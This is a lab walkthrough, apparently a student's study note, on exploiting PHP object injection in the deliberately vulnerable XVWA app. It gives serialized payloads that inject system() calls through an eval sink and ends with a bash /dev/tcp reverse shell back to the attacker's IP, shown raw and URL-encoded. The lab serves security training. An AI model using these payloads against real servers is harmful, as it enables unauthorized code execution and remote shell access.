# Solution2026-02-07 00:52

Status:

Tags:[[eWPTX]]
###### Prerequisites: 
# PHP Deserialization Lab

**Step 1:** Open the lab link to access the Kali GUI instance.


**Step 2:** Check if the provided machine/domain is reachable.

**Command:**

```
ping -c3 demo.ine.local
```



The provided machine is reachable.

**Step 3:** Check open ports on the provided machine.

**Command:**

```
nmap -sS -sV demo.ine.local
```



Port 80 (Apache webserver) and 3306 (MySQL server) are open on the target machine.

**Step 4:** Open the browser to inspect the hosted website.

**URL:** http://demo.ine.local



An instance of [**XVWA**](https://github.com/s4n7h0/xvwa) is hosted on the Apache webserver.

**Step 5:** Open PHP Object Injection page.

Select **PHP Object Injection** from the available set of vulnerabilities:



**Step 6:** Interact with the vulnerable page.

Press the **CLICK HERE** button and notice the resulting URL:



You should see the following URL:

```
http://demo.ine.local/xvwa/vulnerabilities/php_object_injection/?r=a:2:{i:0;s:4:"XVWA";i:1;s:33:"Xtreme Vulnerable Web Application";}
```

There is an object in the URL parameter `r`.

If you notice closely, the values present in this parameter - `XVWA` and `Xtreme Vulnerable Web Application` are shown on the page.

But what exactly is this object contained in the `r` parameter?

Let's search for it:

**Search string:**  

```
a:2:{i:0;s:4:"";i:1;s:33:"";}
```

We have intentionally omitted any references to XVWA to avoid getting results specific to it.



Notice we got back some results indicating it is serialized PHP data.

One of the comments on SO also indicates to use the PHP `serialize` and `unserialize` methods on this kind of input:



Let's try to produce similar results using the [serialize](https://www.php.net/manual/en/function.serialize.php) method from PHP:

**Commands:**  

```
php -a
echo serialize("Hello World!");
echo serialize(array('a', 2, 'c', 4, 'e', 6, 'g', 8, 'i', 10));
```



The above commands would do the following:

**php -a:** Launch an interactive PHP environment - a REPL (read-eval-print-loop). Here we can run PHP code without having to set up any webserver.

The second command serialized the string **Hello World!**.

The result is simple enough - `s:12` indicates what follows is a string of 12 characters.

The third command goes one step ahead and serializes an array, which is where serialization has its value - more on that shortly.

The output says `a:10`, indicating what follows is an array of size 10. Then we have all the elements of the array. Each array element's index and value are indicated. For instance, let's consider the first two elements:

- `i:0;s:1:"a"` - Element at index 0 is a string of size 1 and that string is "a".
- `i:0;i:2` - Element at index 1 is an integer and it's value is 2.

Hopefully, this makes much more sense now.

**What's serialization?**

Sometimes you get to situations where you have to pass objects over the network, or the state of a program is to be stored for later use. How can you do that, provided that the information is present in an object?

One possibility is to save all the object's properties and then populate them back later. That would be good, but it would be reinventing the wheel and would not be as optimized and compact as it could have been. Serialized objects must also later be deserialized. Since this is a standard requirement, it is built-in into the programming languages like Java, PHP, and the like.

Now that we know the parameter we saw in the URL was actually a PHP serialized object, let's figure it out using what we learned above:

**Commands:**  

```
php -a
echo unserialize('a:2:{i:0;s:4:"XVWA";i:1;s:33:"Xtreme Vulnerable Web Application";}');
var_dump(unserialize('a:2:{i:0;s:4:"XVWA";i:1;s:33:"Xtreme Vulnerable Web Application";}'));
```



We run the PHP code from the interactive mode and [unserialize](https://www.php.net/manual/en/function.unserialize.php) the PHP object. Notice that it is an [associative array](https://www.w3schools.com/PHP/php_arrays_associative.asp) having two items.

Check the [PHP manual for unserialize](https://www.php.net/manual/en/function.unserialize.php):



Notice the big red warning message. It's a clear warning to the developers about the RCE threat if they pass user-controlled input to the `unserialize` function.

**Step 7:** Check the source code of the PHP Object Injection page from Github.

**URL:** https://github.com/s4n7h0/xvwa/blob/master/vulnerabilities/php_object_injection/home.php



Notice the relevant code snippet shown in the above image. If the request contains the parameter `r`, its value is unserialized. Also, notice the call to `eval` - the `inject` parameter is directly passed to `eval`, which is an excellent opportunity for RCE.

**Step 8:** Exploit the insecure PHP deserialization vulnerability.

Save the following code snippet as `object.php`:

```
<?php
    class PHPObjectInjection {
        public $inject="system('id');";
    }
    $obj=new PHPObjectInjection();
    var_dump(serialize($obj));
?>
```



Notice the above code snippet sets the `inject` parameter to `system('id')`, which would run the `id` command on the webserver.

Serialize the object:

**Command:**  

```
php object.php
```



**Serialized payload:**  

```
O:18:"PHPObjectInjection":1:{s:6:"inject";s:13:"system('id');";}
```

Assign the generated value in the `r` parameter in the URL:



Notice the results of the `id` command are shown on the page.

With that, we successfully exploited the insecure deserialization issue to run arbitrary commands.

**Step 9:** Check the list of running processes.

Now that we have code execution on the target server, let's check the list of running processes:

Save the following code snippet as `object.php`:  

```
<?php
    class PHPObjectInjection {
        public $inject="system('ps aux');";
    }
    $obj=new PHPObjectInjection();
    var_dump(serialize($obj));
?>
```



Serialize the object:

**Command:**  

```
php object.php
```



**Serialized payload:**  

```
O:18:"PHPObjectInjection":1:{s:6:"inject";s:17:"system('ps aux');";}
```

Assign the generated value in the `r` parameter in the URL:



The process listing is retrieved, as shown in the above image.

Check the page source for a better-formatted response (press `CTRL+U`):



**Step 10:** Obtain a reverse shell.

Running single commands is good, but it requires us to generate the serialized value every time.

Let's get a reverse shell to avoid that.

Before moving on to the payload generation part, retrieve the IP address of the attacker machine:

**Command:**  

```
ip addr
```



The IP address of the attacker machine is `192.222.13.2`.

**Note:** The IP address is bound to change with every lab run. Kindly make sure to replace the IP address used in the payload. Otherwise, the payload wouldn't work.

Save the following code snippet as `object.php`:

```
<?php
    class PHPObjectInjection {
        public $inject="system('/bin/bash -c \'bash -i >& /dev/tcp/192.222.13.2/54321 0>&1\'');";
    }
    $obj=new PHPObjectInjection();
    var_dump(serialize($obj));
?>
```



Serialize the object:

**Command:**  

```
php object.php
```



**Serialized payload:**  

```
O:18:"PHPObjectInjection":1:{s:6:"inject";s:71:"system('/bin/bash -c \'bash -i >& /dev/tcp/192.222.13.2/54321 0>&1\'');";}
```

Start a Netcat listener on port 54321 (since we specified this port in the reverse shell payload as well):

**Command:**  

```
nc -lvp 54321
```



Assign the generated value in the `r` parameter in the URL:



It didn't work. But why is that?

It is because the serialized payload contains characters like `/` and `&` which are treated specially by the web browser and the server.

To avoid that, we will encode the serialized payload.

You can use Burp to do that or use websites like https://www.url-encode-decode.com/ to get the job done:



**URL-encoded serialized payload:**  

```
O%3A18%3A%22PHPObjectInjection%22%3A1%3A%7Bs%3A6%3A%22inject%22%3Bs%3A71%3A%22system%28%27%2Fbin%2Fbash+-c+%5C%27bash+-i+%3E%26+%2Fdev%2Ftcp%2F192.222.13.2%2F54321+0%3E%261%5C%27%27%29%3B%22%3B%7D
```

**Note:** Make sure not to copy this payload as is, since the IP would be different for the attacker machine assigned to you.

Assign the URL-encoded payload in the `r` parameter in the URL:



Check the terminal where the Netcat listener was running:



We have gained a reverse shell!

Now we can run commands without having to generate command payloads every single time:

**Commands:**  

```
id
pwd
ls -al
```



With that, we conclude this lab on **Insecure PHP Deserialization** also known as **PHP Object Injection**.

We learned about serialization and deserialization, how to generate serialized values, and how to unserialize them. We also reviewed the PHP code and uncovered the use of a code execution sink, namely the `eval` function. Finally, we exploited the vulnerable code by generating malicious serialized objects to gain command execution on the target server.

# References

- [XVWA](https://github.com/s4n7h0/xvwa)
- [PHP Associative Arrays](https://www.w3schools.com/PHP/php_arrays_associative.asp)
- [PHP Serialize](https://www.php.net/manual/en/function.serialize.php)
- [PHP Unserialize](https://www.php.net/manual/en/function.unserialize.php)

